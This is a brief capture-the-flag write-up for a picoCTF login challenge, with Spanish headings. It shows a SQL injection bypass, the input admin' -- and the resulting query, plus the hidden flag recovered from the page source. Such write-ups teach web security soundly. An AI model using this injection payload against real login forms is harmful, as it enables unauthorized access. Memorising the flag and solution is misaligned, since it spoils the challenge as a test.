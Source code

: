 ## Descripción

Can you login to this website?Try to login [here](http://saturn.picoctf.net:55316/).
## Pistas

1. `admin` is the user you want to login as.

## Solución

`username: admin' --` 
`password: abcd`
`SQL query: SELECT * FROM users WHERE name='admin' -- ' AND password='abcd'`

 'Logged in! But can you see the flag, it is in plainsight.'

Inspeccionamos el código fuente
`<pre>username: admin&#039; -- password: abcd SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; -- &#039; AND password=&#039;abcd&#039; </pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>`

## Notas Adicionales



## Referencias
- 

